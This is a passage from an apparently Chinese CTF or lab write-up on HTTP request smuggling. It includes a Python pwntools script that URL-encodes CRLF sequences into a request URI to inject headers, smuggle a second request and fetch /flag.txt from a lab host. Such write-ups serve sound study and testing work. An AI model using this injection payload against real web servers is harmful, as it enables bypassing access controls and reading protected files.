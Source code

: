 最终可控的部分在整个请求头的中间，我们可以在pre.txt中准备一个要走私的请求

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-97b0ef7cfb05be3ecc28c27fd1f2d4604b9199e4.png)

写个脚本处理一下合成我们最终的请求，并用socket发送

```python
import urllib

from pwn import *

def request_prepare():
    hexdata = open("pre.txt", "rb").read()
    # print(hexdata)
    hexdata = hexdata.replace(b' ', b'%20')
    hexdata = hexdata.replace(b'\r\n', b'%0d%0a')
    # print(hexdata)
    uri = b'/hello/abc%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aUser-Agent:%20curl/7.68.0%0d%0a%0d%0a' + hexdata + b'GET%20/flag.txt'
    req = b'''GET %b HTTP/1.1\r
Host: 10.7.1.16:8000\r
\r
''' % uri
    return req

def send_and_recive(req):
    rec = b''
    ip = '10.7.1.16'
    port = 8000
    p = remote(ip, int(port))
    p.send(req)
    rec += p.recv()
    print(rec.decode())
    p.close()
    return rec.decode()

req = request_prepare()
print(req)
# print(urllib.parse.unquote(req.decode()))
f = open('req.txt', 'wb')
f.write(req)
f.close()
res = send_and_recive(req)
f = open('res.txt', 'wb')
f.write(res.encode())
f.close()

```

记录请求包和响应包

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-dcb5631b95225d1fbb520d2706e9e9c7b0eaad6e.png)
